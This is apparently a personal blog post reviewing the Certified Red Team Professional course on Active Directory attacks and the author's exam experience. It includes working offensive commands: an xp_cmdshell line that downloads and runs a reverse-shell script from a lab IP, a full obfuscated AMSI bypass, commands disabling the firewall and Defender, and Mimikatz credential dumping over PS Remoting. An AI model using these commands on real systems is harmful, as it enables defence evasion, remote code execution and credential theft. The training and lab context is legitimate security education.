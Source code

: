 ```yaml
---
layout: post
title: "Certified Red Team Professional (CRTP) Review"
permalink: "crtp"
date: 13-11-2022
categories: Blog
---
```


Recently I passed the Certified Red Team Professional (CRTP) which was an excellent course provided by Pentester Academy. The course is focused on Active Directory hacking but instead of using Kali we instead use a Windows box to priv esc and move around the AD network with the help of PS Remoting mainly. 

The best part about this course is we are working in an environment with MS Defender and AMSI scanning in place so although being stealthy (aka Red Teaming) isn't a requirement it is necessary to bypass these restrictions. You have the option to use Kali at times but I chose to use the provided Windows VM the whole time for a change from the OSCP.

The course consists of the following sections but to be honest for the exam the 'Defenses' topics aren't required:

* Active Directory Enumeration
* Local Privilege Escalation
* Domain Privilege Escalation
* Domain Persistence and Dominance
* Cross Trust Attacks
* Forest Persistence and Dominance
* Defenses – Monitoring
* Defenses and bypass – Architecture and Work Culture Changes
* Defenses and Bypass – Deception
* Defenses and Bypass – PowerShell

### Enumeration

Throughout the enumeration section you have the choice to use the [ActiverDirectory Module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/) or [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) but I chose the latter created by Will Schroeder aka @harmj0y which is an amazing tool. 

PowerView contains some useful features such as Invoke-UserHunter which can find computers where specified users or groups have a current session as well as Find-LocalAdminAccess whereby it searches the domain looking for machines that the current user has local admin access to.

The other tool that stands out is the one named [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) which scans the domain looking for SQL servers that may be accessible. The first command I would run would be this to provide general enumeration of the SQL Servers:

{% highlight powershell %}
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
{% endhighlight %}

I would then do a more specific search to see if the returned SQL servers from the above command link to any further SQL Servers which can be achieved by using SQLServerLinkCrawl:

{% highlight powershell %}
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
{% endhighlight %}

This would normally tell you if you are sysadmin on any of the SQL servers and if you are you could potentially enable xp_cmdshell and get a reverse shell on the SQL server itself with:

{% highlight powershell %}
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell "powershell iex (iwr http://172.16.100.1:80/Invoke-PowerShellTcpEx.ps1 -UseBasicParsing)"'
{% endhighlight %}

### Privilege Escalation

One of the key things when going from box to box I learned is how to disable AMSI and also open up the firewall and disable real-time monitoring to alow me to use my Priv Esc tools. These were the two Powershell commands I ran each time which might be useful for others:

**Bypass AMSI:**
{% highlight powershell %}
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
{% endhighlight %}

**Disable AV & Open Firewall:**
{% highlight powershell %}
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;Set-MpPreference -DisableIOAVProtection $true;Set-MpPreference -DisableRealtimeMonitoring $true
{% endhighlight %}

For Priv Esc I used [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) and [Mimikatz](https://github.com/gentilkiwi/mimikatz) mainly when I had the privileges. The key to using these was to try and not touch disk too and to run them in memory to avoid AV.

### Lateral Movement

I think the highlight of the course is the use of PS Remoting to laterally move from machine to machine. Running commands like this becomes second nature after awhile and this wasn't a massive feature of the OSCP so was great to get the experience in using it:

{% highlight powershell %}
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
{% endhighlight %}

Also being able to create a PowerShell session, store it in a variable, then call Mimikatz locally and passing Mimikatz to the session was such a great technique to use:

{% highlight powershell %}
$sess = New-PSSession -Computername Server1
Invoke-Command -Session $sess -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
{% endhighlight %}

### Other Topics

The course also delves into lots of other tips and tricks such as Golden\Silver tickets, Kerberoasting, Unconstrained Delegation, Skeleton keys, ACL abuse etc etc but they would be too numerous to cover here. It is suffice to say that you come away from the course with a lot more knowledge of Active Directory than other courses provide.

### Exam

I started the exam at 10am and began making my way through the machines on the network and had cracked them all by midnight. I won't give away too much to avoid spoilers but I think I may have underestimated how difficult it was going to be and there were sections like going from machine 3 to 4 which were particularly tricky for me conceptually to perform. 

I do think overall the exam was fair and if you know the course well you should pass it without problems. By well I mean if a command was only shown once in the course just remember that it exists and don't overlook the minor things.




